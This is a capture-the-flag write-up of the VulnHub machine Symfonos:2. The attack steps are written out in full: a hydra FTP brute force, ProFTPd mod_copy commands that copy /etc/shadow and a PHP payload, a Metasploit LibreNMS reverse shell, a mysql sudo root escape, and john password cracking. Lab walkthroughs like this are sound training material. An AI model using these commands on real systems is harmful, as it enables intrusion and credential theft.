<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-2,331/">Symfonos:2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap



Okay so there are multiple ports opened. We'll just start with SMB.

***

## SMB







We have access to only `anonymous` share with `read-only` permission. So let's see what we can find in that.

In there I found a directory named `backups` which had a `log.txt` file.



It was a big log file. In the starting of that file we can see two command were executed.



we can see that the data of the `shadow` file is copied to `/var/backups/shadow.bak`. And below that command is the command which will show the content of `smb.conf`.

In that content the only thing that seemed interesting to me was some authentication section:



`passdb backend = tdbsam`

After that I found another command which was showing the content of the `/usr/local/etc/proftpd.conf`.



This can be interesting since the FTP doesn't allow `anonymous` login maybe we can find something that will give us access to FTP.





The interesting thing is that there's a `anonymous` section in the config file but it doesn't allow any login.

***

Okay after spending some time looking for a step ahead I noticed something. The version of `ProFTPd`, it's using `1.3.5` so I decided to look for any vulnerability in that version.



All three of them are actually same. We can see explaination of the vulnerability [36742](https://www.exploit-db.com/exploits/36742)

***

__NOTE__: __This is the intended way of rooting this machine. Initially I didn't pwned the system with this way. To read about this method go to the__ [extra section](#extra)

***

I started the bruteforce attack on the FTP server for `aeolus`

```bash
➜ hydra -l aeolus -P rockyou.lst ftp://symfonos.local
```



`aeolus: sergioteamo`

Now we can just use these on `aeolus` SSH account.



***

## Privilege escalation

I ran the enumeration script but got nothing.

I couldn't find anything for a very long time, after that I asked the author for a hint. He said `try to access a web server running on the system`.

So I did that I opened the `/etc/apache2` and in there I noticed something in `port.conf` file.


There's another website running on port `8080` but we cannot visit this website from outside.

To be able to visit this website from outside we'll have to do [port forwarding](https://en.wikipedia.org/wiki/Port_forwarding) We can use following command to do so

* **socat**

```bash
$ socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
```

* **SSH**

```bash
$ ssh -L 8080:localhost:8080 aeolus@machine
password: sergioteamo
```

With any of these command we'll be able to visit `symfonos.local:5000` to get this website.

__NOTE__: I've edited my `/etc/hosts` to make `IP` of the machine as `sysmfonos.local`. If you haven't done that then visit `Machine-IP:5000`



[@DCUA7](https://twitter.com/DCAU7) said that he found an exploit for `libreNMS` so I searched it on metasploit and found it.



I filled all the options like

```json
"RHOST": symfonos.local,
"LHOST": "192.168.1.107",
"PORT":5000,
"USERNAME": "aeolus",
"PASSWORD": "sergioteamo"
```
and ran the exploit which gave me a reverse shell on it as `cronus`.



The first thing I ran was `sudo -l`



We can run `mysql` as root,cool. Let's see if we find any method for `mysql` on `gtfobin`.

I got root method from [gtfobin/mysql](https://gtfobins.github.io/gtfobins/mysql/).

```bash
$ sudo -u root mysql -e '\! /bin/sh'
```

And finally I got the root.



***

## Extra

Okay so if you did a dictionary attack on FTP using a list like `rockyou` then that is the unintended way.



#### Explanation of FTP vulnerability

Basically we can copy content of files and then access them with other sources(in our case SMB).

```
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto <?php phpinfo(); ?>
550 cpto: Permission denied
site cpfr /proc/self/fd/3
350 File or directory exists, ready for destination name
site cpto /var/www/test.php
```

After running all the command mentioned above we can visit the `/test.php` via website(in our case SMB) to see the content.

But keep in mind you might get `permission denied` error on copying or while trying to get the file using `smb` if you didn't copy the right file at the right place. Like this




This is where you'll realise why you've been provided with that `log.txt`.
We have access to `/anonymous` share on SMB and in that log file we can see the exact path of that share.



So if we can copy content of files to `/home/aeolus/share` maybe we can see them.

#### The following is the intended way:

From the log.txt we know that root ran a command

```bash
$ root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
```
meaning there has to be a file containing the content of shadow.

We follow the exploit we found for FTP version i.e

```bash
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto <?php phpinfo(); ?>
550 cpto: Permission denied
site cpfr /proc/self/fd/3
350 File or directory exists, ready for destination name
site cpto /var/www/test.php
```

but with different file paths



Then get this `shadow.txt` via `SMB`






And now we can do the same for getting the `passwd.txt`



Since we have both `passwd` and `shadow` we can try to crack the passwords.
We'll have to `unshadow` the files using `unshadow` command.



Now we can run john on this `hash.txt` file.

```bash
➜ john --wordlist=rockyou.lst hash.txt
```

***

For more on how to crack the password with `shadow` and `passwd` file read
[crack-shadow-hashes-after-getting-root-linux-system-0186386](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)

***

***

This was really an amazing machine, I really learned a lot from this. The privilege escalation was amazing.

***

Thanks to

* [@zayotic]() for making such an amazing machine.
* [@DCUA7](https://twitter.com/D4mianWayne) and [@D4mianWayne](https://twitter.com/D4mianWayne) for being such an awesome team work.


***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more "Writeups".
